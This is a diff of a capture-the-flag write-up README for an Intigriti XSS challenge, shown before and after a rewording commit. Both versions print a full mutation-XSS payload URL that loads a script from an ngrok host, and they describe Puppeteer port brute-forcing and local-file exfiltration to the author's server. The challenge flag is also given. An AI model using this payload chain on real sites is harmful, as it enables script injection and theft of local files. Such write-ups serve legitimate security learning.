

Before and after one commit to testing22-0/solution-challenge-10-23, a Markdown page: README.md, the part around one of its changes. Shown at 89% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -72,48 +61,46 @@ And then, a meme! A picture is worth a thousand words, they say. In the upper pa
 
 It's time to glue everything together!
 
-## The Payloads
+## The Scripts
 
-Alright, fasten your seatbelts because here's where the magic unfolds! Our payloads were the unsung heroes, the script warriors that pirouetted through vulnerabilities, paving the way to the glorious victory flag.
+Get ready for the magic! Our scripts are the key to the victory flag.
 
-### The Entrypoint - [src/page_404.js](src/page_404.js)
+### Entrypoint - [src/page_404.js](src/page_404.js)
 
-Here's where the party kicks off! The `page_404.js` script takes the lead, orchestrating the entire exploit dance. As the first script executed, it lays the groundwork for the entire exploit.
+The party starts with `page_404.js`, orchestrating the exploit dance. It cracks Puppeteer's port, initiating the auto-download of `fetcher.html` for local file extraction.
 
-In a nutshell, `page_404.js` brute-forces Puppeteer's browser port and kickstarts the automatic download of `fetcher.html`, the script responsible for extracting files from the system. It's the piece of code responsible for fetching and executing the exploit locally.
+### Fetcher - [src/fetcher.html](src/fetcher.html)
 
-### The Fetcher - [src/fetcher.html](src/fetcher.html)
+Meet the fetcher, the hero fetching the flag and sending it to our local server. This script plays a crucial role in the exploit. `fetcher.html` grabs the flag and sends it to our server. A simple script with a grand mission!
 
-Meet the fetcher, the hero responsible for grabbing the flag and sending it to our local server. Stored by the browser, this file plays a crucial role in the exploit saga.
+### Server - [src/index.js](src/index.js)
 
-The `fetcher.html` script fetches the flag and dutifully sends it to our local server for safekeeping. A simple script with a grand mission!
+Last but not least, our server script (`index.js`). It runs the show, coordinating the exploit and ensuring a smooth operation. Keep the server humming during the payload.
 
-### The Server - [src/index.js](src/index.js)
-
-Last but certainly not least, our server script (`index.js`). This bad boy runs the show, coordinating the exploit ballet and ensuring everything runs smoothly. Don't forget to keep this server humming while executing the payload.
-
-And there you have it, the dynamic trio of payloads! 🚀
+There you have it, the dynamic trio of scripts that sets up the payload! 🚀
 
 ## Decoding the Payload
 
-Now, let's briefly dissect the exploit's payload. This payload targets the endpoint `https://challenge-1023.intigriti.io/api/report?url=` and does not need user interaction to work. This solution utilizes two main parameters: `src` and `startPort`.
+Now, let's briefly dissect the exploit's payload that requires no user interaction.
 
 ### One possible Payload
+
+This payload targets the endpoint `https://challenge-1023.intigriti.io/api/report?url=` and utilizes two main parameters: `src` and `startPort`.
 
 ```plaintext
 https://challenge-1023.intigriti.io/api/report?url=/<svg><b id="<%2526%2523x2f%253btitle>foo<script src='https:%2526%2523x2f%253b%2526%2523x2f%253ba9b1-191-45-70-141.ngrok-free.app%2526%2523x2f%253b404.js'><%2526%2523x2f%253bscript>">?startPort=40000
 ```
 Let's break it down:
 
-- Path and Parameters: The endpoint https://challenge-1023.intigriti.io/api/report?url= is targeted with the payload appended. The payload begins with `<svg><b id="`, introducing a closing `</title>` tag. For the payload to work, it's needed to encode any slashes present in it by doing: HTML encode `/` -> `&#x2f;` -> URL encode twice -> `%2526%2523x2f%253b`.
+- Path and Parameters: It begins with `<svg><b id="`, introducing a closing `</title>` tag. For the payload to work, it was needed to encode any slashes present in it by HTML encoding `/` -> `&#x2f;` -> URL encoding twice -> `%2526%2523x2f%253b`.
 - Injected Script: The payload injects a script with a src attribute pointing to a remote server (https://a9b1-191-45-70-141.ngrok-free.app) hosting the 404.js script. This script is our entry point into the puppeteer exploit.
 - Query Parameter startPort: The payload introduces the query parameter startPort=40000 (typically ranging between 45000 and 35000), serving as an initial estimation of the puppeteer port. The exploit involves an iterative process, maybe requiring multiple attempts to identify the correct port and extract the flag.
 
 ### Streamlining Port Extraction
 
-To bring a touch of automation to the port extraction, I've crafted an iterative script. Simply hit up `/solve`, and the script autonomously tests various ports to pinpoint the right one.
+I've crafted an iterative script to bring a touch of automation to the port extraction. Simply hit up `/solve`, and the script autonomously tests various ports to pinpoint the right one.
 
-> 💡 Hint: Execute npm i && npm start after cloning the code to observe the script server in action.
+> 💡 Hint: Execute `npm i && npm start` after cloning the code to observe the script server in action.
 
 For an in-depth dive into the magic behind automated port-guessing, check out the code documentation.
 
@@ -122,9 +109,7 @@ For an in-depth dive into the magic behind automated port-guessing, check out th
 And as the grand finale, the flag awaits: **INTIGRITI{Pupp3t3eR_wIth0ut_S0P_LFI}**
 
 ## Conclusion
-Well, that was a wild ride, wasn't it? We dove headfirst into the challenge, navigating through the world of mutation XSS and puppeteer exploits. From injecting scripts to triggering automatic downloads and playing around with CDP like digital ninjas, we've seen the exploit unfold.
-
-Remember, this challenge wasn't just about finding the flag; it was a journey. Each hint, each stumble, and each "aha" moment brought us closer to the goal. In the end, it wasn't just about the swag; it was about the thrill of the hunt, the joy of overcoming challenges, and the camaraderie in Intigriti's community. ❤️🚀
+Man, what a ride! We plunged deep into this challenge, messing with mutation XSS and puppeteer tricks. We threw in scripts, set off auto-downloads, and played around with the CDP. It's more than just hunting for a flag; it's been a crazy journey. Every clue, stumble, and "aha" moment brought us together. It's not just about the swag; it's the thrill, the joy of beating challenges and vibing with the Intigriti community. ❤️🚀
 
 ![Thank you](images/thank-you.png)
 
````
Also changed, not shown: other parts of README.md (+4 -15 lines).
